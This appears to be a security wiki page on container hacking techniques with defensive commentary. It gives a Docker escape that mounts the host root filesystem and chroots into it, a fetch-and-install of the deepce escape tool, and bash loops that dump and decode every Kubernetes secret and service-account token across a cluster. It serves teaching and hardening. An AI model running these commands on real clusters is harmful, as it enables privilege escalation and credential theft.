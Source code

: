 # Container Hacking Techniques

- [Container Hacking Techniques](#container-hacking-techniques)
  - [Docker](#docker)
    - [Leveraging insecure mount](#leveraging-insecure-mount)
    - [Exploiting common missconfigurations - deepce.sh](#exploiting-common-missconfigurations---deepcesh)
  - [Kubernetes](#kubernetes)
    - [Retrieving secrets](#retrieving-secrets)
      - [Service Account secrets](#service-account-secrets)

This wiki aims to summarize many of the most interesting hacking and discovery approaches to identify and exploit missconfigurations in containerized environments.
Check [Container Security In Depth](../../container-security-in-depth.md) for understanding proper security measures to be applied to reduce the risk and likelihood of success of an attacker.

## Docker

### Leveraging insecure mount

As explained in [container-security-in-depth.md](../../container-security-in-depth.md), Docker group is sensitive and must be highly restricted, combined with secure policies restricting the mounts.

If not properly configured, this can be exploited by mounting the whole host filesystem into the container and then scaping with chroot capabilities. Check [docker - gtfobins](https://gtfobins.github.io/gtfobins/docker/) for further information.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![insecure mount](img/00-insecure-mount.png)

### Exploiting common missconfigurations - deepce.sh

[Deepce](https://github.com/stealthcopter/deepce) is an interesting contribution from open source container focused in exploiting well known missconfigurations for escaping containers and escalating privileges.

To install it:

```bash
sudo curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh; sudo  chmod +x /usr/local/bin/deepce.sh
```

```bash
deepce.sh -e DOCKER
```

![Deepce](img/01-deepce-execution.png)

Following screenshot showcase possible exploitable paths to leverage access to the system. The last step is executing the exploit mentioned in [#leveraging-insecure-mount](#leveraging-insecure-mount).

## Kubernetes

### Retrieving secrets

Kubernetes secrets shall not be considered a proper robust measure for managing secrets for applications. Either `read` permissions over secrets in namespace or cluster-wide or having the possibility to exec in the pod, can expose the real content of the secrets.

Secrets are `base64 encoded` so those are easy to retrieve.

If a user has access to the pod, it is not complicated to obtain the values.

Here I register some discovery techniques:

```bash
for secret in $(kubectl get secrets --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  data=$(kubectl get secrets ${name} -n ${namespace} -o=jsonpath="{.data}")
  echo ${data} | jq -r 'to_entries[] | .key + ": " + .value' | while IFS=": " read -r key value; do
      echo -e "\e[32mSecret name: $key:\e[0m\n\e[34mSecret value: $(echo $value | base64 --decode)\e[0m\n\n"
  done
done
```

Get all volumes mounted from secret in host:

```bash
for container in $(crictl ps | tail -n+2 | awk {'print $1'});do
  for volume in $(crictl inspect $container | jq -r .status.mounts[].hostPath |  grep "kubernetes.io~secret");do
    for data in $(ls ${volume}); do
      cat ${volume}/${data}
    done
  done
done
```

> \[!NOTE\]
> Above automation needs to be executed in each of the nodes to retrieve the node specific secrets mounted as volumes for the containers. Requires root permission, but evidences that the secrets are accessible. In an ideal scenario, the administrator shall not access the real secrets of an application of the bank, only because he should manage the infra. Makes sense?

Summary:

- Secrets are accessible either by environment variables or mounts. This is not a big challenge to retrieve, so RBAC takes a lot of importance in protecting the organization as well as using dynamic secret retrieval with Vault Managers instead of leveraging kubernetes secrets directly.
- Secrets are defined in base64 and therefore **not encrypted**. If someone has `read` permission over secrets, it is trivial to retrieve the real value of those.

#### Service Account secrets

By default if not properly configured, a kubernetes cluster mounts the `default` service account in each `namespace` for each pod deployed there. Also, other service accounts may have been created in the cluster and mapped against a pod (or deployment, daemonsets, statefulsets definitions).

These service accounts are mounted in `/var/run/secrets/kubernetes.io/serviceaccount/` of the pod as shown in below example.

![SA](img/02-sa-mount.png)

A `"good"` hacking practice is to obtain all service accounts that are visible (depending on the permissions), trying to get a more privileged sa than the user permissions (e.g. Jenkins with `Kubernetes Cloud` is likely to have interesting permissions.)

```bash
for secret in $(kubectl get pods --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  mounts_=$(kubectl exec -it ${name} -n ${namespace} -- ls /var/run/secrets/kubernetes.io/serviceaccount/)
  token=$(kubectl exec -it ${name} -n ${namespace} -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
  echo -e "\e[32mPod: $name in $namespace:\e[0m\n\e[34mSA mounts\n $mounts_:\n token $token\e[0m\n\n"
done
```

![Token retrieval](img/03-token-retrieval.png)

> \[!CAUTION\]
> Notice that not all the returns are successful. As explained in other chapter, using secure images can reduce the attack surface. There are very limited images such as the ones built from scratch or distroless that do not have even `ls` or `cat` commands available. It could also happen that the system calls are filtered with `seccomp`. Having said that, as you notice in the screenshot, having exec permissions is quite critical to be able to retrieve majority of the secrets of the cluster and therefore the RBAC must be well defined and tight to protect the organization.
